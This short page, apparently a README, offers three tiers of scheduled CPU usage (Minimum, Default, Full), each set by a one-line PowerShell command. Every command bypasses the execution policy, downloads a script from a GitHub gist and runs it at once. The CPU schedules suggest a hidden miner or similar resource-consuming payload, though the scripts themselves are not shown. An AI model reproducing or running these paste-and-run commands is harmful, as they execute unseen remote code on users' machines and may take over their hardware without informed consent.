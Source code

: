 MINIMUM

25% CPU Usage / 24 Hours | 6:45-6:45 Day Session at 25% | 7:00-7:00 Night Session at 25%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/bc1eb60c0cded3fa70bf15b78def9e5f/raw/6bd65dc238c02ab9d8fe3698c16d977bdeab4e21/Minimum.ps1'))"

--------------------------------------------------------------------------

DEFAULT

75% CPU Usage / 24 Hours | 6:30-6:30 Day Session at 50% | 7:00-7:00 Night Session at 100%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/01dc9aa6bb601755ae85b0214cc87458/raw/785a01d325725cea9d7f5c75552b15b9ace8ebfe/Default.ps1'))"

--------------------------------------------------------------------------

FULL

100% CPU Usage / 24 Hours | 6:50-6:50 Day Session at 100% | 7:00-7:00 Night Session at 100%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/c507fe6653e637032b03f681a9c4dc1a/raw/b6011af061915951b6dc480a355e34de3178c66c/Full.ps1'))"

--------------------------------------------------------------------------

